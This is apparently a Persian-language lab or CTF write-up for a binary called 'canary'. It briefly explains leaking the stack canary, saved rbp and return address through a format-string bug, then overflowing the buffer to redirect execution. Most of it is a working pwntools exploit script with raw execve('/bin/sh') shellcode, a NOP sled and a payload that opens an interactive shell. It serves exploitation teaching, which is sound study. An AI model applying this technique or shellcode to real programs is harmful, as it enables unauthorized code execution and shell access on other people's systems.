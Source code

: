 این قسمت به این صورت است که با استفاده از string format که در اختیار ما قرار داده شده است میتوانیم قسمت های مورد نیاز از مموری را بخوانیم، سپس با overflow کردن درست حافظه return address را عوض کنیم
مساله ای که اینجا داریم این است که کنری داریم و باید مقدار کنری قبل و بعد از اجرای تابع یکی باشد.

برای این مساله تعداد زیادی `%lx` گذاشته ایم تا آدرس کنری را بدست بیآوریم و سپس مقادیر rbp و return address را overflow میکنیم، و سعی میکنیم به ابتدای بافر که کد گرفتن شل قرار دارد اجرا شود.

```
from pwn import *


def get_bash():
    # context.update(arch='x86_64', os='linux')
    # return asm(shellcraft.sh())
    return b'\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05'


p = make_packer(64, endian='little', sign='unsigned')
sh = process(["./canary", '%016lx-' * 23])
res = sh.recvline().decode()
canary_value = int(res.strip().split("-")[-4], 16)
rbp_value = int(res.strip().split("-")[-3], 16)
ra_value = int(res.strip().split("-")[-2], 16)
print(res)
print(p(canary_value))
#   create and write input.txt

bash = get_bash()
amo = b"\x90" * (96 - len(bash)) + bash + b"\x90" * 8
print(hex(canary_value), hex(rbp_value), hex(rbp_value - 140))
amo = amo + p(canary_value) + p(rbp_value) + p(rbp_value - 140)
print(amo)

f = open("input.txt", "wb")
f.write(amo)
f.close()
# contine execution
print("--->", sh.recvline(timeout=1))
sh.send(b"1\n")
sh.interactive()
```